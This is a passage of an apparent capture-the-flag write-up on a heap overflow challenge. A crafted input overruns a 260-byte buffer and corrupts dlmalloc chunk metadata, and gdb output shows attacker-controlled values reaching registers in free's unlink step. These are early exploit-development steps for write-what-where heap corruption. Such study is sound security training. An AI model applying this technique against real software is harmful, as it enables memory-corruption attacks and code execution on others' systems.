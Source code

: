 ```
```

Presumably a heap overflow. It appears as if we are going to write to the buffer that is allocated for 260 bytes, and presumably can overwrite into the next heap buffer. Looking at the addresses and sizes provided, all of the buffers are bumped up against one another. An uncontrolled write will allow us to overwrite heap metadata of another block, which when freed will attempt to unlink and coalesce. Let's play around with the inputs:

```bash
stacks0n@ubuntu:~/Desktop$ python -c 'print "AAAABBBB"+"C"*252+"\x00\x00\x00\x00"' > input
stacks0n@ubuntu:~/Desktop$ gdb babyfirst-heap_33ecf0ad56efc1b322088f95dd98827c
(gdb) run < input
Welcome to your first heap overflow...
I am going to allocate 20 objects...
Using Dougle Lee Allocator 2.6.1...
Goodluck!

Exit function pointer is at 804C8AC address.
[ALLOC][loc=804D008][size=1246]
[ALLOC][loc=804D4F0][size=1121]
[ALLOC][loc=804D958][size=947]
[ALLOC][loc=804DD10][size=741]
[ALLOC][loc=804E000][size=706]
[ALLOC][loc=804E2C8][size=819]
[ALLOC][loc=804E600][size=673]
[ALLOC][loc=804E8A8][size=1004]
[ALLOC][loc=804EC98][size=952]
[ALLOC][loc=804F058][size=755]
[ALLOC][loc=804F350][size=260]
[ALLOC][loc=804F458][size=877]
[ALLOC][loc=804F7D0][size=1245]
[ALLOC][loc=804FCB8][size=1047]
[ALLOC][loc=80500D8][size=1152]
[ALLOC][loc=8050560][size=1047]
[ALLOC][loc=8050980][size=1059]
[ALLOC][loc=8050DA8][size=906]
[ALLOC][loc=8051138][size=879]
[ALLOC][loc=80514B0][size=823]
Write to object [size=260]:
Copied 265 bytes.
[FREE][address=804D008]
[FREE][address=804D4F0]
[FREE][address=804D958]
[FREE][address=804DD10]
[FREE][address=804E000]
[FREE][address=804E2C8]
[FREE][address=804E600]
[FREE][address=804E8A8]
[FREE][address=804EC98]
[FREE][address=804F058]

Program received signal SIGSEGV, Segmentation fault.
0x080493f6 in free (mem=0x804f058) at malloc.c:1259
1259    in malloc.c
(gdb) x /i $eip
=> 0x80493f6 <free+273>:   mov    %edx,0x8(%eax)
(gdb) info reg
eax            0x41414141   1094795585
ecx            0x804d004    134533124
edx            0x42424242   1111638594
```
